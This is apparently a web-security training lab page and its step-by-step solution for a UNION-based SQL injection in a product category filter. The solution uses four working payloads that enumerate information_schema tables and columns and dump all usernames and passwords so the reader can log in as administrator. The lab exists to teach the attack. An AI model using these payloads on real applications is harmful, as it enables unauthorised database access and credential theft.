 

#### SQL injection attack, listing the database contents on non-Oracle databases

> This lab contains an SQL injection vulnerability in the product category filter. The results from the  query are returned in the application's response so you can use a UNION  attack to retrieve data from other tables.        
>
> The application has a login function, and the database  contains a table that holds usernames and passwords. You need to  determine the name of this table and the columns it contains, then  retrieve the contents of the table to obtain the username and password  of all users.        
>
> To solve the lab, log in as the `administrator` user.        

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Use Burp Suite to intercept and modify the request that sets the product category filter.
                    </li>
                    <li>
                        <p>
                            Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the <code>category</code> parameter:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+'abc','def'--</code>
                    </li>
                    <li>
                        <p>
                            Use the following payload to retrieve the list of tables in the database:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--</code>
                    </li>
                    <li>
                        Find the name of the table containing user credentials.
                    </li>
                    <li>
                        <p>
                            Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--</code>
                    </li>
                    <li>
                        Find the names of the columns containing usernames and passwords.
                    </li>
                    <li>
                        <p>
                            Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--</code>
                    </li>
                    <li>
                        Find the password for the <code>administrator</code> user, and use it to log in.
                    </li>
                </ol>
            </div>